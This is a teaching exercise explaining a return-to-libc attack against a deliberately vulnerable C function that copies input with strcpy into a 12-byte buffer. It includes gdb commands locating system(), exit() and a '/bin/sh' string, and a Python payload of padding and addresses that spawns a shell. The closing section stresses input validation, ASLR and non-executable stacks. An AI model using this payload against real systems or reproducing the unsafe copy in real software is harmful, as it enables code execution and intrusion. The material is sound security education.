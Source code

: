 
> [!exercise]+ Understanding the Return-to-libc Attack
>
> The return-to-libc attack allows an attacker to execute arbitrary code by exploiting a buffer overflow vulnerability and leveraging existing functions in the C standard library (libc), even when the stack is non-executable.
>
> Consider the vulnerable program `retlibc.c`:
>
> ```c
> int bof(char *str)
> {
>     char buf[12];
>     strcpy(buf, str);
>     printf("You entered: %s\n", buf);
>     return 0;
> }
> ```
>
> The `bof()` function suffers from a buffer overflow vulnerability due to the unsafe usage of `strcpy()`. An attacker can provide an input longer than the buffer size to overwrite the function's return address on the stack.
>
> To perform the return-to-libc attack, the attacker needs to:
>
> 1. Find the addresses of the desired libc functions (`system()` and `exit()`):
>    ```
>    (gdb) print system
>    $1 = {<text variable, no debug info>} 0xf7e175e0 <system\>
>    (gdb) print exit
>    $2 = {<text variable, no debug info>} 0xf7e0a360 <exit\>
>    ```
>
> 2. Locate the address of a string (e.g., `/bin/sh`) to be passed as an argument to `system()`. One way is to search for it in the libc memory space:
>    ```
>    (gdb) find 0xf7dd3000,+99999999,"/bin/sh"
>    0xf7f5b406
>    ```
>
> 3. Craft a payload that includes:
>    - Buffer overflow padding (24 bytes of "A" to reach the return address)
>    - Address of `system()` (overwrite the return address)
>    - Address of `exit()` (return address for `system()`)
>    - Address of the `/bin/sh` string (argument for `system()`)
>
>    Example payload:
>    ```python
>    payload = "A" * 24                     # Buffer overflow padding
>    payload += "\xe0\x75\xe1\xf7"          # Address of system()
>    payload += "\x60\xa3\xe0\xf7"          # Address of exit()
>    payload += "\x06\xb4\xf5\xf7"          # Address of "/bin/sh"
>    ```
>
> When the vulnerable function returns, it jumps to `system()` with `/bin/sh` as the argument, spawning a shell.
>
> The return-to-libc attack demonstrates the importance of proper input validation and secure coding practices to prevent buffer overflow vulnerabilities. It also highlights the need for mitigations like non-executable stack and Address Space Layout Randomization (ASLR) to make exploitation more challenging.
